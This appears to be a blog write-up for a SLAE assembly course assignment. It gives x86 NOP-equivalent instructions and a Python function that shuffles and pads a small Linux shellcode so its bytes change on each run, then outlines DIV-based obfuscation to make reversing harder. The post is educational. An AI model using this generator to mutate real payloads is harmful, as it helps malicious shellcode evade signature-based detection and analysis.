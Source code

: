 ### Wasting CPU time

As a PoC for a polymorphic generator script, I wrote a bunch of instruction
that they can be placed everywhere in the shellcode without interfering with
the final result.

{%highlight asm%}
 42                   	inc    %edx
 4a                   	dec    %edx
 50                   	push   %eax
 53                   	push   %ebx
 51                   	push   %ecx
 52                   	push   %edx
{%endhighlight%}

This is the python script filling the shellcode with some NOP equivalent
instruction. Of course, to meet our SLAE assignment rule in size, we can select
only 3 of them, but in a real case scenario it will be fun feeding a buffer
with a very large nonsense opcode list.

{%highlight python%}
def kill_nop_super_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    nop_blk=["\\x90", "\\x6a\\x$$", "\\x42", "\\x4a", "\\x50", "\\x53", "\\x51", "\\x52"]

    shuffle(nop_blk)
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    to_add=nop_blk[0:n]
    setup_blk.extend(to_add)
    par = randint(1,255);


    shuffle(init_blk);
    shuffle(setup_blk);

    tmp="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";
    shellcode=tmp.replace("$$", str(par));
    return shellcode
{%endhighlight%}

### Doing math...

Using math to substitute MOV instructions is **too much expensive** in terms of
byte added to original shellcode and it could not be considered as a
successfull strategy to deal with the < +150% rule engagement.

However, in a real case scenario, it can be a feasible way to make reversing
much difficult if there are no constraints in target buffer size.

So please, not consider this for SLAE but only for fun. I just implemented, as
PoC a math strategy based on DIV instruction. This piece of python code will
create the assembly code needed to load DL with a random number between 1 and
FF since we want to store DIV result in AL and the reminder, 0, to AH. We will
load AX with the target number multiplied by this random number and then call
"DIV DL".
